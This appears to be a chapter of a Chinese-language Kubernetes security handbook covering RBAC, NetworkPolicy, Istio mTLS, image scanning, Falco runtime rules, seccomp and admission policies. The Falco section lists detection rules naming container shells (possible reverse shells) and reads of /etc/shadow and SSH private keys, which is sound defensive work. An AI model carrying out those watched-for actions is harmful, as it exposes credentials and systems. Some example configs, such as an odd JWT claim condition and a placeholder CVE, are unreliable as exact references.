

# 09 - 云原生安全专家指南

> **适用版本**: Kubernetes v1.25-v1.32 | **最后更新**: 2026-02 | **作者**: Allen Galler | **质量等级**: ⭐⭐⭐⭐⭐ 专家级

---

## 知识地图

| 属性 | 说明 |
|------|------|
| **文件角色** | 云原生安全专家指南 — K8s 安全防护的全面参考 |
| **适合读者** | 开发者（安全意识）→ 运维（安全加固）→ 安全工程师（纵深防御） |
| **前置知识** | 05(概念参考)中的安全概念、08(安全权限控制) |
| **关联文件** | 01(运维安全实践)、08(安全权限)、13(安全合规命令) |

### 安全防护层次

| 层次 | 内容 | 章节 |
|------|------|------|
| **L1 身份与访问** | 认证、授权、RBAC、ServiceAccount | §1 零信任 |
| **L2 镜像与容器** | 镜像扫描、运行时安全、securityContext | §2 容器安全 |
| **L3 网络** | NetworkPolicy、mTLS、Service Mesh | §1 + §5 |
| **L4 数据** | Secret加密、etcd加密、备份安全 | §4 + §5 |
| **L5 合规** | CIS Benchmark、PCI DSS、SOC2 | §3 合规自动化 |
| **L6 检测响应** | 审计日志、异常检测、事件响应 | §4 威胁检测 |

---

## 目录

- [1. 零信任安全架构](#1-零信任安全架构)
- [2. 容器安全防护](#2-容器安全防护)
- [3. 合规自动化体系](#3-合规自动化体系)
- [4. 威胁检测与响应](#4-威胁检测与响应)
- [5. 安全运维最佳实践](#5-安全运维最佳实践)
- [6. 安全工具链集成](#6-安全工具链集成)

---

## 1. 零信任安全架构

> **🔰 初学者导读**: 零信任安全的核心理念是"永远验证，从不信任"——即使是内网的请求也必须经过认证和授权。在K8s中通过RBAC、NetworkPolicy、mTLS三层实现。

### 1.1 零信任核心原则

| 原则 | 定义 | 实施要点 | 技术实现 | 验证方法 |
|------|------|----------|----------|----------|
| **永不信任** | 默认拒绝所有访问请求 | 显式身份验证、最小权限 | mTLS双向认证、JWT令牌 | 端到端加密测试 |
| **始终验证** | 持续验证身份和权限 | 上下文感知、动态授权 | OPA策略引擎、SPIFFE/SPIRE | 行为分析检测 |
| **最小权限** | 仅授予必需的最小权限 | 细粒度控制、即时撤销 | RBAC、Pod安全标准 | 权限审计报告 |
| **纵深防御** | 多层安全防护机制 | 分层隔离、冗余保护 | NetworkPolicy、安全网关 | 渗透测试验证 |
| **持续监控** | 实时监控和分析威胁 | 异常检测、快速响应 | SIEM平台、行为基线 | 告警响应测试 |

#### RBAC最佳实践

> **🔰 初学者理解**: RBAC(基于角色的访问控制)就像公司的门禁卡系统——普通员工只能刷开自己办公区的门,经理能进更多区域,CEO有所有权限。在K8s中,不同角色(Role)拥有不同权限,通过RoleBinding把角色分配给用户或ServiceAccount。

**🔧 工作原理**

RBAC通过四个核心资源实现访问控制:

1. **Role/ClusterRole**: 定义权限集合(能做什么操作)
2. **RoleBinding/ClusterRoleBinding**: 绑定角色到用户/组/ServiceAccount(谁能做)
3. **Subject**: 权限主体(用户、组、ServiceAccount)
4. **Resources**: 被操作的资源(pods、services、secrets等)

权限判断遵循"最小权限原则"——默认拒绝所有请求,只有显式授权才能通过。

**📝 最小示例**

```yaml
# ========== 只读用户角色 ==========
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pod-reader
  namespace: production
rules:
- apiGroups: [""]  # 空字符串表示核心API组
  resources: ["pods"]
  verbs: ["get", "list", "watch"]  # 只读操作
---
# ========== 绑定角色到ServiceAccount ==========
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-pods
  namespace: production
subjects:
- kind: ServiceAccount
  name: app-monitor
  namespace: production
roleRef:
  kind: Role
  name: pod-reader
  apiGroup: rbac.authorization.k8s.io

---
# ========== 应用程序专用权限 ==========
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: deployment-manager
  namespace: production
rules:
# 允许管理Deployment
- apiGroups: ["apps"]
  resources: ["deployments"]
  verbs: ["get", "list", "create", "update", "patch"]
# 允许查看Pod状态
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list"]
# 允许读取ConfigMap(不允许修改)
- apiGroups: [""]
  resources: ["configmaps"]
  verbs: ["get", "list"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: app-deployer-binding
  namespace: production
subjects:
- kind: ServiceAccount
  name: ci-cd-bot
  namespace: production
roleRef:
  kind: Role
  name: deployment-manager
  apiGroup: rbac.authorization.k8s.io
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 安全影响 |
|------|---------|---------|
| ❌ 给所有ServiceAccount使用cluster-admin | ✅ 为每个应用创建专用ServiceAccount和Role | cluster-admin等于root权限,被入侵后整个集群沦陷 |
| ❌ 使用通配符`resources: ["*"]` | ✅ 明确列出需要的资源类型 | 过度授权导致权限泄露扩散 |
| ❌ `verbs: ["*"]`全部操作权限 | ✅ 只授予必需的verbs(get/list/create等) | 误操作可能删除关键资源 |
| ❌ 使用默认的default ServiceAccount | ✅ 每个应用创建独立ServiceAccount | 默认SA没有权限或被多个应用共享 |
| ❌ ClusterRole用于命名空间级资源 | ✅ 优先使用命名空间级Role | ClusterRole权限作用全集群,风险更高 |

**最佳实践检查清单**:
```bash
# 审计过度授权的角色
kubectl get clusterrolebindings -o json | jq '.items[] | select(.subjects[]?.name=="default")'

# 查找使用通配符的危险Role
kubectl get roles,clusterroles -A -o yaml | grep -E "resources:.*\*|verbs:.*\*"

# 检查哪些SA绑定了cluster-admin
kubectl get clusterrolebindings -o json | jq '.items[] | select(.roleRef.name=="cluster-admin") | .subjects'
```

#### NetworkPolicy深度解析

> **🔰 初学者理解**: NetworkPolicy是K8s的"内网防火墙规则"——默认情况下Pod之间可以随意通信,就像公司内网所有电脑互通。通过NetworkPolicy可以设置"只允许前端Pod访问后端API,禁止数据库被直接访问"这样的隔离规则。

**🔧 工作原理**

NetworkPolicy工作在L3/L4网络层,通过CNI插件(如Calico、Cilium)实现:

1. **默认行为**: 如果命名空间没有NetworkPolicy,所有流量都允许
2. **选择器匹配**: 通过podSelector选中需要应用策略的Pod
3. **规则类型**: 分为Ingress(入站)和Egress(出站)
4. **执行逻辑**: 一旦Pod被任何NetworkPolicy选中,默认拒绝所有流量,只允许规则中明确指定的流量

**📝 最小示例**

```yaml
# ========== 默认拒绝所有流量(安全基线) ==========
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}  # 空选择器=命名空间内所有Pod
  policyTypes:
  - Ingress
  - Egress

---
# ========== 允许前端访问后端API ==========
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-frontend-to-backend
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: backend-api  # 保护后端API的Pod
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:  # 只允许来自前端Pod的流量
        matchLabels:
          app: frontend
    ports:
    - protocol: TCP
      port: 8080

---
# ========== 数据库访问严格限制 ==========
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: database-access-control
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: postgres
  policyTypes:
  - Ingress
  - Egress
  ingress:
  # 只允许特定应用连接数据库
  - from:
    - podSelector:
        matchLabels:
          db-access: "true"
    ports:
    - protocol: TCP
      port: 5432
  egress:
  # 数据库只能访问DNS(用于域名解析)
  - to:
    - namespaceSelector:
        matchLabels:
          name: kube-system
      podSelector:
        matchLabels:
          k8s-app: kube-dns
    ports:
    - protocol: UDP
      port: 53

---
# ========== 跨命名空间访问控制 ==========
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-from-ingress-namespace
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: web-service
  policyTypes:
  - Ingress
  ingress:
  - from:
    # 允许来自ingress-nginx命名空间的流量
    - namespaceSelector:
        matchLabels:
          name: ingress-nginx
    ports:
    - protocol: TCP
      port: 80
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 影响 |
|------|---------|------|
| ❌ 认为创建NetworkPolicy就能生效 | ✅ 确认CNI插件支持NetworkPolicy(Calico/Cilium等) | 很多CNI(如flannel)不支持,规则不生效 |
| ❌ 只设置Ingress规则 | ✅ 同时设置Ingress和Egress | 只限制入站,Pod仍可访问任何外部地址 |
| ❌ 忘记添加DNS出站规则 | ✅ Egress规则中允许访问kube-dns | Pod无法解析域名导致服务不可用 |
| ❌ 使用IP地址而非标签选择器 | ✅ 优先使用podSelector/namespaceSelector | Pod IP是动态的,硬编码IP规则会失效 |
| ❌ 一个命名空间只用一个NetworkPolicy | ✅ 为不同应用创建多个策略 | 规则过于宽泛无法实现细粒度隔离 |

**调试NetworkPolicy的黄金命令**:
```bash
# 测试Pod间连通性
kubectl run test-pod --rm -it --image=nicolaka/netshoot -- bash
# 在容器内执行: curl http://<目标Pod IP>:8080

# 查看应用到Pod的NetworkPolicy
kubectl describe pod <pod-name> | grep -i "network policy"

# 使用Cilium查看策略状态(如果使用Cilium CNI)
kubectl exec -n kube-system cilium-xxx -- cilium endpoint list

# 查看NetworkPolicy详情
kubectl get networkpolicy -A -o yaml
```

### 1.2 Service Mesh安全架构

| 组件 | 安全功能 | 配置要点 | 监控指标 | 故障处理 |
|------|----------|----------|----------|----------|
| **Sidecar代理** | 流量加密、身份认证 | mTLS配置、证书轮换 | 连接成功率、延迟增加 | 代理重启、证书更新 |
| **控制平面** | 策略管理、服务发现 | 安全配置、访问控制 | 控制面健康、策略同步 | 故障转移、配置回滚 |
| **证书管理** | PKI体系、自动轮换 | 根证书管理、有效期设置 | 证书过期预警、轮换成功率 | 紧急证书更新 |
| **流量控制** | 熔断、限流、重试 | 超时配置、重试策略 | 请求成功率、错误率 | 流量策略调整 |
| **可观测性** | 安全日志、追踪信息 | 审计日志、分布式追踪 | 安全事件数量、追踪覆盖率 | 日志分析、链路排查 |

### 1.3 零信任网络实施

```yaml
# ========== Istio零信任配置 ==========
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: default
  namespace: istio-system
spec:
  mtls:
    mode: STRICT  # 强制双向TLS认证
  
---
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: allow-app-access
  namespace: production
spec:
  selector:
    matchLabels:
      app: backend-service
  rules:
  - from:
    - source:
        principals: ["cluster.local/ns/frontend/sa/frontend-sa"]
    to:
    - operation:
        methods: ["GET", "POST"]
        paths: ["/api/*"]
    when:
    - key: request.auth.claims[exp]
      values: ["true"]

---
# ========== SPIFFE/SPIRE身份管理 ==========
apiVersion: spiffe.io/v1alpha1
kind: SpiffeID
metadata:
  name: backend-workload
spec:
  spiffeId: "spiffe://example.org/ns/production/sa/backend"
  parentId: "spiffe://example.org/spire/server"
  selectors:
    - type: k8s
      value: "ns:production"
    - type: k8s
      value: "sa:backend-service-account"

---
# ========== 网络策略实施零信任 ==========
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: zero-trust-isolation
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
  ingress:
  # 只允许来自授权服务的流量
  - from:
    - namespaceSelector:
        matchLabels:
          name: frontend
      podSelector:
        matchLabels:
          app: frontend-app
    ports:
    - protocol: TCP
      port: 8080
  egress:
  # 只允许访问必要的外部服务
  - to:
    - namespaceSelector:
        matchLabels:
          name: database
      podSelector:
        matchLabels:
          app: postgres
    ports:
    - protocol: TCP
      port: 5432
```

---

## 2. 容器安全防护

> **🔰 初学者导读**: 容器安全从"构建时"开始——使用安全的基础镜像、扫描漏洞、限制容器权限。记住黄金法则：不用root运行容器、只读文件系统、最小权限。

### 2.1 镜像安全扫描体系

| 扫描维度 | 检测内容 | 工具支持 | 扫描时机 | 阻断策略 |
|----------|----------|----------|----------|----------|
| **漏洞扫描** | CVE漏洞、已知安全缺陷 | Trivy、Clair、Anchore | 构建时、部署前、运行时 | Critical/High级别阻断 |
| **配置检查** | Dockerfile安全配置 | Checkov、Docker Scout | CI/CD流水线 | 基线不符合阻断 |
| **秘密检测** | 硬编码凭证、API密钥 | GitLeaks、detect-secrets | 代码提交、镜像构建 | 立即阻断并告警 |
| **许可证合规** | 开源许可证检查 | FOSSA、Black Duck | 构建阶段 | 商业许可证阻断 |
| **SBOM生成** | 软件物料清单 | Syft、BOM Tool | 构建完成后 | 存档用于审计 |

#### 镜像安全完整流程

> **🔰 初学者理解**: 镜像安全就像食品安全检测——从原材料(基础镜像)到生产过程(构建)再到成品出厂(部署),每个环节都要检查。不合格的镜像就像过期食品,绝对不能让它进入生产环境。

**🔧 工作原理**

镜像安全扫描分为三个阶段:

1. **构建时扫描(Build-time)**: 在CI/CD流水线中集成Trivy/Grype,扫描已知CVE漏洞
2. **准入控制(Admission Control)**: 通过Webhook拦截部署请求,拒绝存在高危漏洞的镜像
3. **运行时扫描(Runtime)**: 使用Trivy Operator定期扫描集群内运行的镜像,发现新披露的漏洞

**📝 最小示例**

```yaml
# ========== Trivy CI/CD集成(GitLab CI示例) ==========
# .gitlab-ci.yml
image-scan:
  stage: test
  image: aquasec/trivy:latest
  script:
    # 扫描镜像,发现HIGH/CRITICAL级别漏洞则失败
    - trivy image --exit-code 1 --severity HIGH,CRITICAL $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
    # 生成SBOM报告
    - trivy image --format cyclonedx --output sbom.json $CI_REGISTRY_IMAGE:$CI_COMMIT_SHA
  artifacts:
    reports:
      container_scanning: gl-container-scanning-report.json
    paths:
      - sbom.json

---
# ========== OPA策略阻断不安全镜像 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: image-security-policy
  namespace: opa-system
data:
  policy.rego: |
    package kubernetes.admission
    
    # 拒绝使用latest标签
    deny[msg] {
      input.request.kind.kind == "Pod"
      image := input.request.object.spec.containers[_].image
      endswith(image, ":latest")
      msg := sprintf("镜像不能使用latest标签: %v", [image])
    }
    
    # 拒绝非可信镜像仓库
    deny[msg] {
      input.request.kind.kind == "Pod"
      image := input.request.object.spec.containers[_].image
      not startswith(image, "registry.company.com/")
      not startswith(image, "gcr.io/")
      msg := sprintf("只允许使用可信镜像仓库: %v", [image])
    }
    
    # 要求镜像签名验证
    deny[msg] {
      input.request.kind.kind == "Pod"
      not input.request.object.metadata.annotations["cosign.sigstore.dev/signature"]
      msg := "镜像必须经过Cosign签名验证"
    }

---
# ========== Kyverno策略简化版 ==========
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: check-image-vulnerabilities
spec:
  validationFailureAction: enforce  # 阻断模式
  webhookTimeoutSeconds: 30
  rules:
  - name: check-vulnerabilities
    match:
      any:
      - resources:
          kinds:
          - Pod
    verifyImages:
    - imageReferences:
      - "*"
      attestations:
      - predicateType: https://cosign.sigstore.dev/attestation/vuln/v1
        conditions:
        - all:
          # 拒绝有CRITICAL漏洞的镜像
          - key: "{{ element.CRITICAL }}"
            operator: LessThanOrEquals
            value: "0"
          # 拒绝HIGH漏洞超过5个的镜像
          - key: "{{ element.HIGH }}"
            operator: LessThanOrEquals
            value: "5"

---
# ========== Trivy Operator运行时扫描 ==========
apiVersion: aquasecurity.github.io/v1alpha1
kind: VulnerabilityReport
metadata:
  name: nginx-deployment-nginx
  namespace: production
spec:
  artifact:
    repository: nginx
    tag: "1.21.0"
  scanner:
    name: Trivy
    version: "0.45.0"
  summary:
    criticalCount: 2
    highCount: 8
    mediumCount: 15
    lowCount: 23
  vulnerabilities:
  - vulnerabilityID: CVE-2023-1234
    severity: CRITICAL
    title: "nginx buffer overflow vulnerability"
    fixedVersion: "1.21.6"
    installedVersion: "1.21.0"
    primaryLink: https://nvd.nist.gov/vuln/detail/CVE-2023-1234
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 后果 |
|------|---------|------|
| ❌ 只在CI阶段扫描一次 | ✅ 构建时+运行时持续扫描 | 新CVE披露后已部署的镜像无法感知风险 |
| ❌ 扫描后不处理漏洞报告 | ✅ 建立漏洞修复SLA(Critical 24h, High 7d) | 扫描变成形式主义,漏洞长期存在 |
| ❌ 使用alpine就认为安全 | ✅ Alpine也有漏洞,照样需要扫描 | Alpine的musl libc也会有CVE |
| ❌ 所有漏洞都必须修复 | ✅ 基于CVSS评分和可利用性评估优先级 | 低危漏洞可能无法修复(上游未修复) |
| ❌ 信任Docker Hub公开镜像 | ✅ 使用企业私有仓库,扫描后才允许使用 | 公开镜像可能被植入后门 |

**镜像安全检查清单**:
```bash
# 扫描本地镜像
trivy image nginx:1.21.0

# 扫描正在运行的镜像
trivy k8s --report summary cluster

# 查看集群中的漏洞报告
kubectl get vulnerabilityreports -A

# 生成SBOM(软件物料清单)
syft packages nginx:1.21.0 -o cyclonedx-json > sbom.json

# 验证镜像签名
cosign verify --key cosign.pub registry.company.com/app:v1.0.0
```

#### 运行时安全防护体系

> **🔰 初学者理解**: 运行时安全就像安装在家里的监控摄像头——即使小偷进了门,摄像头也能发现异常行为并报警。Falco能监控容器的系统调用,当有人尝试在容器里执行`bash`反弹shell、读取`/etc/shadow`等危险操作时立即告警。

**🔧 工作原理**

运行时安全通过内核级监控实现:

1. **eBPF/内核模块**: Falco通过eBPF程序或内核模块捕获系统调用
2. **规则引擎**: 将系统调用事件与预定义规则匹配(如"容器内执行shell")
3. **响应动作**: 发送告警到Slack/PagerDuty、终止进程、隔离容器
4. **审计日志**: 记录所有可疑行为用于事后分析

**📝 最小示例**

```yaml
# ========== Falco安全规则配置 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-rules
  namespace: falco
data:
  custom-rules.yaml: |
    # 检测容器内执行Shell
    - rule: Terminal Shell in Container
      desc: A shell was spawned in a container (potential reverse shell)
      condition: >
        spawned_process and container and
        proc.name in (bash, sh, zsh, fish, ash)
      output: >
        Shell spawned in container (user=%user.name container=%container.id 
        image=%container.image.repository:%container.image.tag command=%proc.cmdline)
      priority: WARNING
      tags: [mitre_execution, container]

    # 检测读取敏感文件
    - rule: Read Sensitive File
      desc: Detect reads of sensitive files like /etc/shadow
      condition: >
        open_read and container and
        fd.name in (/etc/shadow, /etc/passwd, /root/.ssh/id_rsa)
      output: >
        Sensitive file read (user=%user.name file=%fd.name 
        command=%proc.cmdline container=%container.id)
      priority: CRITICAL
      tags: [mitre_credential_access]

    # 检测容器内安装软件包
    - rule: Package Management Process Launched
      desc: Package manager executed in container (potential malware install)
      condition: >
        spawned_process and container and
        proc.name in (apt, apt-get, yum, dnf, apk, pip, npm)
      output: >
        Package manager launched (user=%user.name command=%proc.cmdline 
        container=%container.id)
      priority: WARNING
      tags: [mitre_persistence]

    # 检测修改系统二进制文件
    - rule: Write Below Binary Directory
      desc: Attempt to write to system binary directories
      condition: >
        open_write and container and
        fd.name startswith /bin/ or fd.name startswith /usr/bin/
      output: >
        Write to system binary directory (file=%fd.name 
        user=%user.name container=%container.id)
      priority: CRITICAL
      tags: [mitre_defense_evasion]

---
# ========== Seccomp安全配置文件 ==========
apiVersion: v1
kind: ConfigMap
metadata:
  name: seccomp-profile
  namespace: production
data:
  restricted.json: |
    {
      "defaultAction": "SCMP_ACT_ERRNO",
      "architectures": ["SCMP_ARCH_X86_64"],
      "syscalls": [
        {
          "names": [
            "accept", "accept4", "access", "arch_prctl",
            "bind", "brk", "chdir", "clone", "close",
            "connect", "dup", "dup2", "epoll_create",
            "epoll_ctl", "epoll_wait", "exit", "exit_group",
            "fcntl", "fstat", "futex", "getcwd", "getpid",
            "getsockname", "getsockopt", "ioctl", "listen",
            "lseek", "mmap", "mprotect", "munmap",
            "open", "openat", "poll", "read", "readv",
            "recvfrom", "recvmsg", "rt_sigaction", "rt_sigreturn",
            "sched_yield", "sendmsg", "sendto", "set_robust_list",
            "setsockopt", "shutdown", "sigaltstack", "socket",
            "stat", "tgkill", "write", "writev"
          ],
          "action": "SCMP_ACT_ALLOW"
        }
      ]
    }

---
# ========== 应用Seccomp Profile到Pod ==========
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
  namespace: production
spec:
  securityContext:
    seccompProfile:
      type: Localhost
      localhostProfile: profiles/restricted.json
  containers:
  - name: app
    image: registry.company.com/secure-app:v1.0.0
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      runAsNonRoot: true
      runAsUser: 10001
      capabilities:
        drop:
        - ALL
```

**⚠️ 常见误区**

| 误区 | 正确做法 | 影响 |
|------|---------|------|
| ❌ 部署Falco但不处理告警 | ✅ 接入SIEM或Slack,建立响应流程 | 告警被淹没,真正攻击被忽略 |
| ❌ 使用默认Seccomp配置 | ✅ 为应用定制最小系统调用集合 | 默认配置过于宽松或过于严格 |
| ❌ 只监控生产环境 | ✅ 测试环境也要监控(黑客常从测试环境渗透) | 测试环境成为攻击跳板 |
| ❌ 认为只读文件系统就安全 | ✅ 攻击者可以在内存中运行恶意代码 | 只读文件系统只是一层防护 |
| ❌ 禁用所有Capabilities | ✅ 某些应用需要NET_BIND_SERVICE等权限 | 应用无法启动或功能异常 |

**运行时安全验证**:
```bash
# 查看Falco告警
kubectl logs -n falco -l app=falco --tail=100 | grep Priority

# 测试Seccomp是否生效(在Pod内执行)
cat /proc/self/status | grep Seccomp
# Seccomp: 2 表示已启用

# 查看容器的Capabilities
kubectl exec -it <pod> -- capsh --print

# 检查只读文件系统
kubectl exec -it <pod> -- touch /test.txt
# 应该返回: Read-only file system
```

### 2.2 运行时安全防护

| 防护机制 | 技术实现 | 检测能力 | 响应动作 | 性能影响 |
|----------|----------|----------|----------|----------|
| **系统调用控制** | Seccomp、AppArmor | 异常系统调用检测 | 终止进程、告警 | 低(<5%) |
| **文件系统保护** | 只读根文件系统 | 未授权文件修改 | 拒绝写入、记录日志 | 极低 |
| **网络访问控制** | CNI网络策略 | 异常网络连接 | 断开连接、阻断流量 | 中等 |
| **进程行为监控** | Falco规则引擎 | 异常进程行为 | 告警、隔离容器 | 低(2-3%) |
| **特权提升防护** | Capability限制 | 权限滥用检测 | 拒绝提权、终止进程 | 无 |

### 2.3 容器安全最佳实践

```yaml
# ========== 生产级安全Pod配置 ==========
apiVersion: v1
kind: Pod
metadata:
  name: secure-application
  namespace: production
  labels:
    app: secure-app
    security-level: high
spec:
  # 服务账户和安全上下文
  serviceAccountName: app-service-account
  securityContext:
    runAsNonRoot: true
    runAsUser: 10001
    runAsGroup: 3000
    fsGroup: 2000
    supplementalGroups: [3000]
    
  # 容器安全配置
  containers:
  - name: app
    image: registry.example.com/secure-app:v1.0.0
    imagePullPolicy: Always
    
    # 安全上下文
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      runAsNonRoot: true
      runAsUser: 10001
      capabilities:
        drop:
        - ALL
        add:
        - NET_BIND_SERVICE  # 仅添加必要权限
        
    # 资源限制
    resources:
      requests:
        cpu: "100m"
        memory: "128Mi"
      limits:
        cpu: "500m"
        memory: "512Mi"
        
    # 环境变量安全
    env:
    - name: DATABASE_URL
      valueFrom:
        secretKeyRef:
          name: db-credentials
          key: connection-string
    - name: LOG_LEVEL
      value: "INFO"
      
    # 挂载卷安全
    volumeMounts:
    - name: tmp-volume
      mountPath: /tmp
    - name: app-config
      mountPath: /config
      readOnly: true
    - name: logs-volume
      mountPath: /var/log
      
  # 初始化容器安全
  initContainers:
  - name: init-db
    image: busybox:1.35
    securityContext:
      runAsNonRoot: true
      runAsUser: 10001
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
    command: ['sh', '-c', 'echo "Initializing database connection..."']
    
  # 卷配置
  volumes:
  - name: tmp-volume
    emptyDir:
      medium: Memory  # 内存卷，重启后清除
  - name: app-config
    configMap:
      name: app-config
  - name: logs-volume
    persistentVolumeClaim:
      claimName: app-logs-pvc
      
---
# ========== 镜像安全扫描流水线 ==========
apiVersion: tekton.dev/v1beta1
kind: Pipeline
metadata:
  name: secure-build-pipeline
spec:
  workspaces:
  - name: shared-data
  tasks:
  - name: build-image
    taskRef:
      name: kaniko-build
    workspaces:
    - name: source
      workspace: shared-data
    params:
    - name: IMAGE
      value: "$(params.IMAGE_URL):$(params.IMAGE_TAG)"
      
  - name: vulnerability-scan
    taskRef:
      name: trivy-scan
    runAfter: ["build-image"]
    workspaces:
    - name: source
      workspace: shared-data
    params:
    - name: IMAGE
      value: "$(params.IMAGE_URL):$(params.IMAGE_TAG)"
    - name: SEVERITY_THRESHOLD
      value: "HIGH"
      
  - name: configuration-check
    taskRef:
      name: checkov-scan
    runAfter: ["build-image"]
    workspaces:
    - name: source
      workspace: shared-data
    params:
    - name: SOURCE_PATH
      value: "."
      
  - name: sbom-generation
    taskRef:
      name: syft-sbom
    runAfter: ["build-image"]
    workspaces:
    - name: source
      workspace: shared-data
    params:
    - name: IMAGE
      value: "$(params.IMAGE_URL):$(params.IMAGE_TAG)"
    - name: OUTPUT_FORMAT
      value: "cyclonedx-json"
      
  - name: policy-evaluation
    taskRef:
      name: opa-policy-check
    runAfter: ["vulnerability-scan", "configuration-check"]
    workspaces:
    - name: source
      workspace: shared-data
    params:
    - name: POLICY_BUNDLE
      value: "security-policies"
    - name: INPUT_DATA
      value: "$(workspaces.source.path)/scan-results.json"
```

---

## 3. 合规自动化体系

> **🔰 初学者导读**: 合规不是一次性检查而是持续过程。通过Policy as Code(如OPA/Kyverno)自动化执行安全策略,确保所有部署都符合安全基线。

### 3.1 主要合规标准要求

| 合规标准 | 适用行业 | 核心要求 | Kubernetes映射 | 审计频率 |
|----------|----------|----------|----------------|----------|
| **SOC2 Type II** | SaaS/云服务 | 安全性、可用性、机密性 | RBAC、审计日志、网络隔离 | 年度 |
| **ISO 27001** | 通用 | 信息安全管理 | 安全策略、风险评估、访问控制 | 年度 |
| **PCI-DSS v4.0** | 支付行业 | 数据保护、访问控制 | 密钥管理、网络分段、日志审计 | 季度 |
| **HIPAA** | 医疗行业 | 患者数据保护 | 数据加密、访问日志、备份策略 | 年度 |
| **GDPR** | 欧盟数据 | 数据主体权利、隐私保护 | 数据处理记录、隐私影响评估 | 持续 |
| **等保2.0三级** | 中国 | 网络安全等级保护 | 安全加固、入侵检测、备份恢复 | 年度 |

#### OPA/Kyverno策略引擎

> **🔰 初学者理解**: Policy as Code就像机场的自动安检门——每个乘客(Pod)通过时都会自动检查是否携带违禁品(违反安全策略)。OPA/Kyverno是K8s的"安检门",在资源创建前自动验证是否符合安全规范,不符合直接拦截。

**🔧 工作原理**

策略引擎通过Admission Webhook工作:

1. **拦截请求**: 当用户执行`kubectl apply`时,请求先发往API Server
2. **策略评估**: API Server调用Webhook,将资源发送给OPA/Kyverno评估
3. **匹配规则**: 策略引擎检查资源是否违反预定义规则(如"必须使用非root用户")
4. **返回结果**: 允许通过、拒绝(enforce模式)或仅记录(audit模式)

**📝 最小示例**

```yaml
# ========== Kyverno策略(推荐初学者使用) ==========
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: security-best-practices
spec:
  validationFailureAction: enforce  # 强制模式,违规直接拒绝
  background: true  # 对已存在资源也生效
  rules:
  # 规则1: 禁止特权容器
  - name: disallow-privileged-containers
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "特权容器被禁止使用"
      pattern:
        spec:
          containers:
          - =(securityContext):
              =(privileged): false
  
  # 规则2: 要求只读根文件系统
  - name: require-ro-rootfs
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "容器必须使用只读根文件系统"
      pattern:
        spec:
          containers:
          - securityContext:
              readOnlyRootFilesystem: true
  
  # 规则3: 限制镜像仓库
  - name: restrict-image-registries
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "只允许使用企业内部镜像仓库"
      foreach:
      - list: "request.object.spec.containers"
        deny:
          conditions:
            all:
            - key: "{{ element.image }}"
              operator: NotIn
              value:
              - "registry.company.com/*"
              - "gcr.io/company-project/*"

---
# ========== OPA Gatekeeper策略(更灵活但复杂) ==========
apiVersion: templates.gatekeeper.sh/v1
kind: ConstraintTemplate
metadata:
  name: k8spspprivileged
spec:
  crd:
    spec:
      names:
        kind: K8sPSPPrivileged
  targets:
  - target: admission.k8s.gatekeeper.sh
    rego: |
      package k8spspprivileged
      
      violation[{"msg": msg}] {
        c := input.review.object.spec.containers[_]
        c.securityContext.privileged
        msg := sprintf("特权容器被禁止: %v", [c.name])
      }
